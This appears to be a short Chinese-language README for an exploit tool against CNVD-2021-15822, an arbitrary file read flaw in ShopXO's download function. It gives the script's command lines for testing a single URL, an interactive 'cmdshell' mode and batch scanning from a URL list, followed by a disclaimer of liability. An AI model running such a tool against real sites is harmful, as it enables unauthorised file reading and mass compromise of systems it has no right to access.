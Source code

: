 # CNVD-2021-15822
ShopXO download存在任意文件读取漏洞。


## 工具利用

python3 CNVD-2021-15822.py -u http://127.0.0.1:1111 单个url测试

python3 CNVD-2021-15822.py -c http://127.0.0.1:1111 cmdshell模式

python3 CNVD-2021-15822.py -f url.txt 批量检测
![exp](./poc.png)


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
